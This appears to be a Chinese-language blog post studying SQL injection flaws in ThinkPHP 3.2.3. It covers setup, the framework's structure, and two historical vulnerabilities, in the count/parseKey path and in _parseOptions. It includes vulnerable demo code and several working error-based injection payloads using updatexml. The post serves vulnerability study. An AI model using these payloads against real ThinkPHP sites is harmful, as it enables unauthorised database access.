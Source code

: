 # ThinkPHP3.2.3漏洞学习


# 环境搭建
`ThinkPHP3`

`composer create-project topthink/thinkphp=版本号 文件名`

`ThinkPHP5`(完整版)

`composer create-project topthink/think=版本号 文件名`

阿里云 Compose 全量镜像资源库

`composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/`

https://www.runoob.com/w3cnote/composer-install-and-usage.html

https://packagist.org/
# 框架了解
审计之前，我们需要了解框架的信息

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

`composer create-project topthink/thinkphp=3.2.3 thinkphp3.2.3`
```
index.php      入口文件
Application    应用目录
Public         资源文件目录
ThinkPHP       框架目录
```
其中框架目录`ThinkPHP`的结构如下
```
Common         核心公共函数目录
Conf           核心配置目录
Lang           核心语言包目录
Library        核心类库目录
    Think      核心Think类库目录
    Behavior   行为类库目录
    Org        Org类库目录
    Vendor     第三方类库目录
	...        更多类库目录
Mode           框架应用模式目录
Tpl            系统模板目录
ThinkPHP.php   框架入口文件
```
其中`Application`目录如下
```
Common         应用公共模块
    Common     应用公共函数目录
    Conf       应用公共配置文件目录
Home           默认生成的Home模块
    Conf       模块配置文件目录
    Common     模块函数公共目录
    Controller 模块控制器目录
    Model      模块模型目录
    View       模块视图文件目录
Runtime        运行时目录
    Cache      模板缓存目录
    Data       数据目录
    Logs       日志目录
    Temp       缓存目录
```
## 路由信息
thinkphp3使用 URL 模式切换：普通 GET 模式、pathinfo、rewrite 和兼容模式
`/ThinkPHP/Conf/convention.php`
```php
return array(
	&#34;URL_MODEL&#34; =&gt; 1
	//URL模式:0(普通模式) 1(PATHINFO 模式) 2(REWRITE模式) 3(兼容模式)
	//静态路由
	&#34;URL_ROUTE_ON&#34; =&gt; fasle,
	&#34;URL_ROUTE_RULES&#34; =&gt; array()
)
```
# 历史漏洞
## SQL 注入
### 0x01 聚合查询功能count方法未过滤调用parseKey
#### 利用条件
`ThinkPHP[5.0.0,5.0.23]，ThinkPHP 3 全版本`
### 漏洞分析和原理
`ThinkPHP3.2.3`
漏洞 demo
```java
public function SqlDemo(){
	$field = I(&#39;get.field&#39;);
	$num = M(&#39;user&#39;)-&gt;count($field);
	//M(&#39;user&#39;) 相当于 new Think\Model(&#39;user&#39;)
	var_dump($num);
}
```
poc
`?field=id),updatexml(1,concat(1,user(),1),1)from&#43;user%23`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922219.png)

在这里打个断点，跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922041.png)

会进入到`ThinkPHP/Library/Think/Model.class.php`中的`__call`方法中，
因为是`count`，所以进入到`$this-&gt;getField()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131928555.png)

经过对传入字段进行解析等一系列操作之后，

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131931608.png)

进入到`$this-&gt;db-&gt;select()`方法中
此时传入的`$options`变成了

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131932383.png)

继续跟进，这里进入到了`$this-&gt;buildSelectSql()`方法，来构建 select 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934433.png)

进入到`$this-&gt;parseSql()`方法中

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934837.png)

利用`$this-&gt;parseField()`方法进行解析，继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131938968.png)

这里的`$this-&gt;parseKey()`对传入的 payload 并没有进行过滤

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131939109.png)

然后便回到`$this-&gt;parseField()`方法中，返回构建的 field 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131941304.png)

 最终回到`$this-&gt;parseSql()`方法中，返回最终需要执行的 sql 语句
 
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131942656.png)

最后得到了执行

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131943511.png)


### 0x02 ThinkPHP/Library/Think/Model.class.php::\_parseOptions未过滤$options导致 sql 注入
#### 利用条件
ThinkPHP &lt;= 3.2.3
#### 漏洞原理和分析
`$options`查询条件可以不经过数据处理直接进入`_parseOptions`，再进入`Driver.class.php`的sql操作函数，和上面一样通过`buildSelectsql`方法或直接调用`delete`方法进行拼接 sql 语句，然后再进行执行
漏洞 Demo
```java
public function SqlDemo()
{
    $id = I(&#39;id&#39;);
    $res = M(&#39;user&#39;)-&gt;select($id);
    $res = M(&#39;user&#39;)-&gt;find($id);
}
```
poc

`id[comment]=\*/where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)/\*`

`id[limit]=1,1&#43;procdure&#43;analyse(updatexml(1,concat(0x7e,user(),0x7e),1),1)--`

`id[field]=* from user where 1 and updatexml(1,concat(0x7e,user(),0x7e),1) --&#43;`

具体构造出多少个`poc`，可以看`pasexxx`有多少个



---

> Author: [N1Rvana](https://nlrvana.github.io)  
> URL: https://nlrvana.github.io/posts/80e2887/  

